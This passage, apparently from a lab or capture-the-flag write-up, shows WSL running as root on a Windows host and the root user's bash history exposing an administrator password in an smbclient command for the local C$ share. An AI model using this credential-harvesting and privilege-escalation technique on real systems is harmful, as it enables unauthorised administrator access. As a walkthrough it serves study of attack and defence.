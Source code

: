 WSL running as root:

```bash
C:\Distros\Ubuntu>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\Distros\Ubuntu

06/21/2018  05:59 PM    <DIR>          .
06/21/2018  05:59 PM    <DIR>          ..
07/11/2017  06:10 PM           190,434 AppxBlockMap.xml
07/11/2017  06:10 PM             2,475 AppxManifest.xml
06/21/2018  03:07 PM    <DIR>          AppxMetadata
07/11/2017  06:11 PM            10,554 AppxSignature.p7x
06/21/2018  03:07 PM    <DIR>          Assets
06/21/2018  03:07 PM    <DIR>          images
07/11/2017  06:10 PM       201,254,783 install.tar.gz
07/11/2017  06:10 PM             4,840 resources.pri
06/21/2018  05:51 PM    <DIR>          temp
07/11/2017  06:10 PM           222,208 ubuntu.exe
07/11/2017  06:10 PM               809 [Content_Types].xml
               7 File(s)    201,686,103 bytes
               6 Dir(s)  13,599,760,384 bytes free
			   
C:\Distros\Ubuntu>wsl whoami
wsl whoami
root
```

Root history reveals administrator password:

```bash
# pwd
/root
# ls
filesystem
# ls -al
total 8
drwx------ 1 root root  512 Jun 22  2018 .
drwxr-xr-x 1 root root  512 Jun 21  2018 ..
---------- 1 root root  398 Jun 22  2018 .bash_history
-rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
# cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```